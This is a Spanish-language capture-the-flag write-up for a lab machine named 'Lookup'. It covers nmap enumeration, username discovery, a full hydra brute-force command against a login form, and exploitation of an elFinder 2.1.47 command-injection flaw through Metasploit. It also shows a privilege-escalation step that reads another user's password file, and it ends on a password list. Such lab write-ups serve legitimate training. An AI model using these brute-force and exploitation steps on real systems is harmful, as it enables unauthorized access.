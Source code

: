 # Conectividad

![image](https://github.com/user-attachments/assets/9c87be3b-8916-4137-a03a-6f2edaa733c0)

# Enumeración

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.171.41
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-23 15:36 GMT
Nmap scan report for 10.10.171.41
Host is up (0.000096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:E3:ED:A7:A5:D5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

Al conectarnoos al http por puerto 80 nos encontramos que no busca por el dominio esta registrado a "lookup.thm" simplemente lo añadimos a nuestro DNS

```
echo "ip lookup.thm" | sudo tee -a /etc/hosts
```

Después de ir enumerando un rato, encontramos que hay una forma muy simple de saber si un usuario existe o no, hemos metido un sniper simplemente e ir probando nombres hasta que de un legnth diferente, encontramos:

- admin
- jose

Con esta información podemos hacer un ataque con hydra de fuerza bruta al usuario jose

```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

Sacamos la pass 

jose:password123

Al entrar parece ser que no metemos dentro de un subdominio, lo deberemos añadir

![image](https://github.com/user-attachments/assets/f665ba70-2623-4faf-b6d8-7c3aa298a162)

Una vez dentro vamos a enumerar esto que tiene buena pinta

# Explotación

En los archivos enumerados no encontramos información relevante vamos a inspeccionar si dicho software tiene alguna vulnerabilidad

![image](https://github.com/user-attachments/assets/b200dfec-b5c9-4af4-8ee6-c364211dc02d)

elfinder 2.1.47

![image](https://github.com/user-attachments/assets/effd91f5-235c-4553-9c3a-20488777da2f)

Parece que hay una vulnerabilidad de command injection

ya sabemos 

```
msfconsole
```

buscamos el modulo auxiliar

```
show options
```

configuramos las opciones y estamos dentro

![image](https://github.com/user-attachments/assets/9383bcc4-7b3b-46de-942e-9651189f4cbe)

Vamos a hacer una shell y sacar a ver la primera flag y posteriormente buscar la escala de privilegios

# Escala de privilegios

Con el usuario de www-data no tenemos privilegios para ver el user.txt vamos a probar otros vectores

![image](https://github.com/user-attachments/assets/a32dc666-d95c-4bd5-ad5b-6fa076a7a615)

Después de enumerar los servicios nos encontramos con el /usr/sbin/pwm

![image](https://github.com/user-attachments/assets/57788841-64f6-4878-8df0-4b62465e443b)

Parece ser que nos da el .password un archivo del home de think

![image](https://github.com/user-attachments/assets/d6cfdb64-1b8d-414d-b9d5-498114ff492a)



```

jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```
